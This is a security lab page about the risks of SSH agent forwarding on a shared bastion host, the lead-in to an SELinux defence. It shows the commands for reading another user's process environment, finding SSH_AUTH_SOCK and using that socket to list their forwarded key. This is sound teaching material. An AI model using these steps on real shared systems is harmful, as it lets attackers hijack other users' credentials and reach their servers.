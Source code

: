```yaml
---
sidebar_position: 4
title: 3. What info can adjacent SSH tenants access?
description: Learn how to steal credentials from another tenant's SSH agent.
tags:
  - Lab 
---
```


## Threat Context

Recall that this is a jumpbox/bastion-host, so it's reasonable to make an assumption that everyone on here is authenticated (via SSH) to be on the box. However due to differing levels of authorization within an organization/company it's likely that where they can connect to after that will vary a lot based on their privilege levels.

Hence the primary threats[^1] are:
1. Spoofing -> using forwarded credentials from another tenant to access a server as them.
2. Denial of Service (via Tampering) -> modifying their agent credentials so they cannot access downstream hosts.
3. Information Disclosure -> observing any sensitive data in their SSH session that you should not have access to.

## How you can perform the attack on yourself to learn

Once you're connected to the host with your SSH client, in your other SSM console (the one in the browser on console.aws.amazon.com) run the following:
```
# ps -u ec2-user
  PID TTY          TIME CMD
 8973 ?        00:00:00 sshd
 8974 pts/1    00:00:00 bash
```

We can then get that bash process ID (PID) and dump the environment variables for the process:    
`cat /proc/8974/environ`

we are looking for the _SSH_AUTH_SOCK_ environment variable, which will look something like this:    
`SSH_AUTH_SOCK=/tmp/ssh-423TlzrQBq/agent.8973`

This is a [socket file](https://en.wikipedia.org/wiki/Unix_domain_socket) that allows the key sharing between the remote client and the ssh-agent on this server.

So for the users available to us from the SSM console (`ssm-user` or `root`) we don't have any ssh-agent identities:
```
(root)# ssh-add -L
The agent has no identities.
```

However now if we use the environment variable we found for the SSH_AUTH_SOCK we can dump out what the `ec2-user` forwarded to the host:
```
(root)# SSH_AUTH_SOCK=/tmp/ssh-423TlzrQBq/agent.8973 ssh-add -L
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP+Zj68BITqTICXyjdyzLoBlwbNrPoGEVbB7gsJJ93UW secret-example-key
```

:scream: we see the ssh key I had forwarded from my laptop agent that I was going to use to connect to _THE FINANCE DATABASE HOST_ (for example).
This is how any observer on the Bastion could also do the same if they knew how to find and use the same `SSH_AUTH_SOCK` as me.

## But does this actually happen much in the real world?

Yes, yes it does. For example, in 2019 matrix.org had a [security incident](https://matrix.org/blog/2019/05/08/post-mortem-and-remediations-for-apr-11-security-incident) caused directly from their usage of SSH Agent forwarding.

There are of course some [other measures](https://medium.com/kernel-space/why-using-ssh-agent-forwarding-is-a-bad-idea-6cbdff31bbee) one could take to defend against this, but for the purpose of this lab lets ignore their existence and use SELinux to defend against the issue.

[^1]: I was intentionally using terms from the [STRIDE threat-modeling framework](https://en.wikipedia.org/wiki/STRIDE_(security)) here for internal consistency when describing threats.